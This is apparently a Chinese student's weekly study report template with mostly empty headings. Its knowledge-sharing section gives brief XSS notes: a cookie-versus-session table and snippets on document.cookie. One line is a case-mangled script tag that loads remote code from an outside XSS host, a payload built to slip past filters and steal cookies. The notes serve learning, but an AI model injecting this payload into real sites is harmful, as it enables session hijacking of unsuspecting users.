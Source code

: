 # <font style="color:rgb(38, 38, 38);">完成事项</font>


# <font style="color:rgb(38, 38, 38);">如何解决未完成事项</font>


# <font style="color:rgb(38, 38, 38);">下周待做事项</font>


# <font style="color:rgb(38, 38, 38);">本周学习的知识分享</font>
## XSS
### Cookie和session
| Cookie | session |
| ---- | ---- |
| 保存在客户端 | 保存在服务端 |
| 通常多条 | 通常一条 |
![alt text](image.png)

```javascript
document.cookie;
document.cookie="username=Shone"
alert()
setcookie()
<sCRiPt sRC=//xs.pe/5K3></sCrIpT>
```

# <font style="color:rgb(38, 38, 38);">本周自己学习过程中遇到的问题和疑问点</font>


# <font style="color:rgb(38, 38, 38);">情感、思考、观点</font>


